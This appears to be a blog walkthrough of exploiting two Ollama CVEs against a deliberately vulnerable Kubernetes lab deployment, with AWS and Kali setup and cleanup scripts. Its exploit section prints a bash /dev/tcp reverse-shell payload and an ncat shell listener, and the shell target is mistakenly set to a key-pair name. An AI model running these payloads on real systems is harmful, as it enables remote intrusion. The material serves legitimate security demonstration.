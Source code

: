 ```yaml
---
title: Exploiting old Ollama in Kubernetes
author: Petr Ruzicka
date: 2025-07-10
description: Demonstration of exploiting CVE-2024-37032 and CVE-2024-45436 vulnerabilities in Ollama on Kubernetes
categories: [security, kubernetes, genai]
tags: [ollama, kubernetes, security, attack, demonstration]
image: https://raw.githubusercontent.com/ollama/ollama/9da9e8fb7254df1148f9619bec781e52dc954678/macapp/src/ollama.svg
---
```


This post demonstrates the exploitation of CVE-2024-37032 and CVE-2024-45436
vulnerabilities in Ollama.

References:

- [CVE-2024-37032 Detail](https://nvd.nist.gov/vuln/detail/cve-2024-37032)
- [CVE-2024-37032 & CVE-2024-45436 Ollama RCE](https://github.com/pankass/CVE-2024-37032_CVE-2024-45436)

## Environment Setup

```bash
# AWS Region
export AWS_REGION="${AWS_REGION:-us-east-1}"
# Hostname / FQDN definitions
export CLUSTER_FQDN="${CLUSTER_FQDN:-k01.k8s.mylabs.dev}"
# Base Domain: k8s.mylabs.dev
export BASE_DOMAIN="${CLUSTER_FQDN#*.}"
# Cluster Name: k01
export CLUSTER_NAME="${CLUSTER_FQDN%%.*}"
export AWS_EC2_KEY_PAIR_NAME="ollama-test"
export TMP_DIR="${TMP_DIR:-${PWD}}"
export KUBECONFIG="${KUBECONFIG:-${TMP_DIR}/${CLUSTER_FQDN}/kubeconfig-${CLUSTER_NAME}.conf}"
# Tags used to tag the AWS resources
export TAGS="${TAGS:-Owner=${MY_EMAIL},Environment=dev,Cluster=${CLUSTER_FQDN}}"
mkdir -pv "${TMP_DIR}/${CLUSTER_FQDN}"
```

## AWS EC2 instance with Kali Linux

Launch an AWS EC2 instance with [Kali Linux](https://www.kali.org/) using a
[CloudFormation template](https://github.com/aws-samples/amazon-ec2-nice-dcv-samples/blob/main/cfn/KaliLinux-NICE-DCV.yaml).

```bash
## Download the CloudFormation templates
# renovate: currentValue=master
wget --continue -q -P "${TMP_DIR}" https://raw.githubusercontent.com/aws-samples/aws-codebuild-samples/00284b828a360aa89ac635a44d84c5a748af03d3/ci_tools/vpc_cloudformation_template.yml
# renovate:
wget --continue -q -P "${TMP_DIR}" https://raw.githubusercontent.com/aws-samples/amazon-ec2-nice-dcv-samples/2a0cddbdf9bf15dce3faaaf33dc499e52db7423c/cfn/KaliLinux-NICE-DCV.yaml

## Create a new AWS EC2 Key Pair to be used for the EC2 instances
aws ec2 create-key-pair --key-name "${AWS_EC2_KEY_PAIR_NAME}" --key-type ed25519 --query "KeyMaterial" --output text > "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem"
chmod 600 "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem"

export SOLUTION_KALI="KaliLinux-NICE-DCV"

rain deploy --yes "${TMP_DIR}/vpc_cloudformation_template.yml" "${SOLUTION_KALI}-VPC" \
  --params "EnvironmentName=${SOLUTION_KALI}" \
  --tags "Owner=${USER},Environment=dev,Solution=${SOLUTION_KALI}"

AWS_CLOUDFORMATION_DETAILS=$(aws cloudformation describe-stacks --stack-name "${SOLUTION_KALI}-VPC" --query "Stacks[0].Outputs[? OutputKey==\`PublicSubnet1\` || OutputKey==\`VPC\`].{OutputKey:OutputKey,OutputValue:OutputValue}")
AWS_VPC_ID=$(echo "${AWS_CLOUDFORMATION_DETAILS}" | jq -r ".[] | select(.OutputKey==\"VPC\") .OutputValue")
AWS_SUBNET_ID=$(echo "${AWS_CLOUDFORMATION_DETAILS}" | jq -r ".[] | select(.OutputKey==\"PublicSubnet1\") .OutputValue")

rain deploy --yes --node-style original "${TMP_DIR}/KaliLinux-NICE-DCV.yaml" "${SOLUTION_KALI}" \
  --params "ec2KeyPair=${AWS_EC2_KEY_PAIR_NAME},vpcID=${AWS_VPC_ID},subnetID=${AWS_SUBNET_ID},ec2TerminationProtection=No,allowWebServerPorts=HTTP-and-HTTPS" \
  --tags "Owner=${USER},Environment=dev,Solution=${SOLUTION_KALI}"
```

Configure SSH access to the Kali Linux instance:

```bash
AWS_EC2_KALI_PUBLIC_IP=$(aws ec2 describe-instances --filters "Name=tag:Solution,Values=${SOLUTION_KALI}" --query "Reservations[].Instances[].PublicIpAddress" --output text)
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_PUBLIC_IP}" 'curl -Ls https://github.com/ruzickap.keys >> ~/.ssh/authorized_keys'
```

## Deploying Vulnerable Ollama Instance

Install the `ollama` [Helm chart](https://github.com/otwld/ollama-helm/tree/ollama-1.23.0)
and modify its [default values](https://github.com/otwld/ollama-helm/blob/ollama-1.23.0/values.yaml):

```bash
OLLAMA_HELM_CHART_VERSION="1.23.0"

helm repo add otwld https://helm.otwld.com/
tee "${TMP_DIR}/${CLUSTER_FQDN}/helm_values-ollama.yml" << EOF
image:
  tag: 0.1.33
ingress:
  enabled: true
  annotations:
    nginx.ingress.kubernetes.io/auth-url: https://oauth2-proxy.${CLUSTER_FQDN}/oauth2/auth
    nginx.ingress.kubernetes.io/auth-signin: https://oauth2-proxy.${CLUSTER_FQDN}/oauth2/start?rd=\$scheme://\$host\$request_uri
  hosts:
    - host: ollama-vulnerable.${CLUSTER_FQDN}
      paths:
        - path: /
          pathType: Prefix
  tls:
    - hosts:
        - ollama-vulnerable.${CLUSTER_FQDN}
nodeSelector:
  kubernetes.io/arch: amd64
EOF
helm upgrade --install --version "${OLLAMA_HELM_CHART_VERSION}" --namespace ollama --create-namespace --wait --values "${TMP_DIR}/${CLUSTER_FQDN}/helm_values-ollama.yml" ollama otwld/ollama
```

## Exploit Execution

Make sure you are running these commands on x86 based machine.

```bash
# shellcheck disable=SC2087
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_PUBLIC_IP}" << EOF
set -euxo pipefail
sudo apt install -qqy golang-go ncat

git clone https://github.com/pankass/CVE-2024-37032_CVE-2024-45436.git
cd CVE-2024-37032_CVE-2024-45436

# Run the exploit (replace IP with your listener IP)
echo go run main.go -target https://ollama-vulnerable.${CLUSTER_FQDN} -exec "bash -i >& /dev/tcp/${AWS_EC2_KEY_PAIR_NAME}/80 0>&1"

# Set up listener on attacking machine
echo sudo ncat -lnvp 80 --sh-exec "echo Connected && /bin/bash"
EOF
```

## Conclusion

This demonstration shows how the CVE-2024-37032 and CVE-2024-45436
vulnerabilities can be exploited in Ollama deployments. Organizations should
ensure they are running updated versions of Ollama and implement proper security
controls.

## Cleanup

Delete the Kali Linux EC2 instance, EC2 Key Pair, and related CloudFormation
stack:

```sh
export AWS_REGION="${AWS_REGION:-us-east-1}"
export AWS_EC2_KEY_PAIR_NAME="ollama-test"
export SOLUTION_KALI="KaliLinux-NICE-DCV"
export CLUSTER_FQDN="${CLUSTER_FQDN:-k01.k8s.mylabs.dev}"
export BASE_DOMAIN="${CLUSTER_FQDN#*.}"
export CLUSTER_NAME="${CLUSTER_FQDN%%.*}"
export TMP_DIR="${TMP_DIR:-${PWD}}"
export KUBECONFIG="${TMP_DIR}/kubeconfig-${CLUSTER_NAME}.conf"

aws cloudformation delete-stack --stack-name "${SOLUTION_KALI}"
if eksctl get cluster --name="${CLUSTER_NAME}"; then
  eksctl delete cluster --name="${CLUSTER_NAME}" --force
fi
aws cloudformation delete-stack --stack-name "${SOLUTION_KALI}-VPC"
aws ec2 delete-key-pair --key-name "${AWS_EC2_KEY_PAIR_NAME}"
for FILE in ${TMP_DIR}/{vpc_cloudformation_template.yml,KaliLinux-NICE-DCV.yaml,${AWS_EC2_KEY_PAIR_NAME}.pem,helm_values-ollama.yml,kubeconfig-${CLUSTER_NAME}.conf}; do
  if [[ -f "${FILE}" ]]; then
    rm -v "${FILE}"
  else
    echo "*** File not found: ${FILE}"
  fi
done
```

Enjoy ... 😉
